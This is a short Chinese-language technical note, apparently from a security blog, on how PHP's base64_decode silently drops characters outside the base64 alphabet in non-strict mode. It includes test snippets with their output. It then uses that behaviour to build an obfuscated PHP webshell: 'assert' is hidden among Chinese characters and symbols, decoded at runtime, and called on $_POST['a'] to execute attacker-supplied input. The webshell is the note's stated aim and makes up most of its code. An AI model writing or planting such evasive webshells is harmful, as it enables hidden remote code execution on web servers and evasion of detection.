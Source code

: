 函数定义`base64_decode(string $data, bool $strict = false): string`

`data`编码过的数据

`strict`当设置`strict`为`true`时,一旦输入的数据超出了`base64`字母表,将返回`false`,否则会**静默丢弃无效的字符**(利用点)

同时在base64数据长度不正确时,会自动添加`=`并进行解码

```php
<?php
var_dump(base64_encode('1'));
var_dump(base64_decode(base64_encode('1')));
var_dump(base64_decode('MQ'));
var_dump(base64_decode('MQ='));
```

```
string 'MQ==' (length=4)
string '1' (length=1)
string '1' (length=1)
string '1' (length=1)
```

全版本验证[https://3v4l.org/N5ASY](https://3v4l.org/N5ASY)

静默丢弃无效字符

```php
<?php
var_dump(base64_decode('M张Q三'));
var_dump(base64_decode('M!@#$%^&*()Q!@#$%^&*()'));
```

```
string '1' (length=1)
string '1' (length=1)
```

全版本验证[https://3v4l.org/VaclM](https://3v4l.org/VaclM)

可以利用这一点构造一个webshell

```php
<?php
var_dump(base64_encode('assert'));
var_dump(base64_decode('一Y二X三N四z五Z六X七J八0九'));
var_dump(base64_decode('!@#$%^Y#$%^X@#$%^N@#$%^&z#@$%^&Z$%^&X@#$%J^&*0@#$%'));
```

```
string 'YXNzZXJ0' (length=8)
string 'assert' (length=6)
string 'assert' (length=6)
```

```php
<?php
$a=base64_decode("一Y二X三N四z五Z六X七J八0九");
$a($_POST['a']);
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202211612216.png)